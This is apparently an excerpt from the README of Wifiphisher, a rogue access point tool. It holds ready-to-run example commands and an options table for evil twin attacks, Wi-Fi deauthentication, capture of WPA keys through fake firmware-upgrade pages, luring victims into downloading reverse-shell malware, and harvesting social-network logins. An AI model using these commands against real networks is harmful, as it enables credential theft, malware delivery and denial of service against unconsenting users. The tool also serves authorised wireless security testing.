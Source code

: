 Use wlan0 for spawning the rogue Access Point and wlan4 for DoS attacks. Select the target network manually from the list and perform the "Firmware Upgrade" scenario. Verify that the captured Pre-Shared Key is correct by checking it against the handshake in the handshake.pcap file.

Useful for manually selecting the wireless adapters. The <a href="https://wifiphisher.org/ps/firmware-upgrade/">"Firmware Upgrade"</a> scenario is an easy way for obtaining the PSK from a password-protected network.

***

```shell
wifiphisher --essid CONFERENCE_WIFI -p plugin_update -pK s3cr3tp4ssw0rd
```

Automatically pick the right interfaces. Target the Wi-Fi with ESSID "CONFERENCE_WIFI" and perform the "Plugin Update" scenario. The Evil Twin will be password-protected with PSK "s3cr3tp4ssw0rd".

Useful against networks with disclosed PSKs (e.g. in conferences). The <a href="https://wifiphisher.org/ps/plugin_update/">"Plugin Update"</a> scenario provides an easy way for getting the victims to download malicious executables (e.g. malwares containing a reverse shell payload).

***

```shell
wifiphisher --noextensions --essid "FREE WI-FI" -p oauth-login -kB
```

Do not load any extensions. Simply spawn an open Wi-Fi network with ESSID "FREE WI-FI" and perform the "OAuth Login" scenario. Use the "Known Beacons" Wi-Fi automatic association technique.

Useful against victims in public areas. The <a href="https://wifiphisher.org/ps/oauth-login/">"OAuth Login"</a> scenario provides a simple way for capturing credentials from social networks, like Facebook. 


Following are all the options along with their descriptions (also available with `wifiphisher -h`):

| Short form | Long form | Explanation |
| :----------: | :---------: | :-----------: |
|-h | --help| show this help message and exit |
|-i INTERFACE| --interface INTERFACE| Manually choose an interface that supports both AP and monitor modes for spawning the rogue AP as well as mounting additional Wi-Fi attacks from Extensions (i.e. deauth). Example: -i wlan1 |
|-eI EXTENSIONSINTERFACE| --extensionsinterface EXTENSIONSINTERFACE|	Manually choose an interface that supports monitor mode for running the extensions. Example: -eI wlan1|
|-aI APINTERFACE| --apinterface APINTERFACE|	Manually choose an interface that supports AP mode for spawning an AP. Example: -aI wlan0|
|-kN| --keepnetworkmanager| Do not kill NetworkManager.|
|-nJ| --noextensions|	Do not load any extensions.|
|-e ESSID| --essid ESSID|	Enter the ESSID of the rogue Access Point. This option will skip Access Point selection phase. Example: --essid 'Free WiFi'|
|-pPD PHISHING_PAGES_DIRECTORY|--phishing-pages-directory PHISHING_PAGES_DIRECTORY| Search for phishing pages in this location|
|-p PHISHINGSCENARIO| --phishingscenario PHISHINGSCENARIO	|Choose the phishing scenario to run.This option will skip the scenario selection phase. Example: -p firmware_upgrade|
|-pK PRESHAREDKEY| --presharedkey PRESHAREDKEY|	Add WPA/WPA2 protection on the rogue Access Point. Example: -pK s3cr3tp4ssw0rd|
|-qS| --quitonsuccess|	Stop the script after successfully retrieving one pair of credentials.|
|-lC| --lure10-capture| Capture the BSSIDs of the APs that are discovered during AP selection phase. This option is part of Lure10 attack.
|-lE LURE10_EXPLOIT |--lure10-exploit LURE10_EXPLOIT| Fool the Windows Location Service of nearby Windows users to believe it is within an area that was previously captured with --lure10-capture. Part of the Lure10 attack.|
|-iAM| --mac-ap-interface| Specify the MAC address of the AP interface. Example: -iAM 38:EC:11:00:00:00|
|-iEM| --mac-extensions-interface| Specify the MAC address of the extensions interface. Example: -iEM E8:2A:EA:00:00:00|
|-iNM| --no-mac-randomization| Do not change any MAC address.|
|-hC|--handshake-capture|Capture of the WPA/WPA2 handshakes for verifying passphrase. Example: -hC capture.pcap|
|-dE|--deauth-essid|Deauth all the BSSIDs having same ESSID from AP selection or the ESSID given by -e option.|